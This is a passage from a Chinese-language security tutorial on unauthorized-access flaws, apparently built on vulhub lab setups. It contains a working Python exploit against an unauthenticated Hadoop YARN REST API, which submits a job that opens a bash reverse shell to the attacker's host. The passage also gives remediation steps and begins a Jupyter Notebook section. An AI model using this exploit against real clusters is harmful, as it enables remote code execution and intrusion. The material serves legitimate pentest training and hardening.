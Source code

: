 ```python
#!/usr/bin/env python

import requests

target = 'http://192.168.18.129:8088/'
lhost = '192.168.18.138' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

3、反弹shell

![image-20200709140921090](/images/Unauthorized/image-20200709140921090.png)

##### 漏洞修复

1、如无必要，关闭 Hadoop Web 管理页面

2、开启身份验证，防止未经授权用户访问

3、设置“安全组”访问控制策略，将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访问包括 50070 以及 WebUI 等相关端口。

#### Jupyter Notebook 未授权访问

##### 漏洞描述

​		Jupyter Notebook（此前被称为 IPython notebook）是一个交互式笔记本，支持运行 40 多种编程语言。
如果管理员未为Jupyter Notebook配置密码，将导致未授权访问漏洞，游客可在其中创建一个console并执行任意Python代码和命令。



##### 漏洞验证

0、环境搭建

```shell
# wget https://raw.githubusercontent.com/vulhub/vulhub/master/jupyter/notebook-rce/docker-compose.yml
# docker-compose build && docker-compose up -d
默认监听8888端口
```
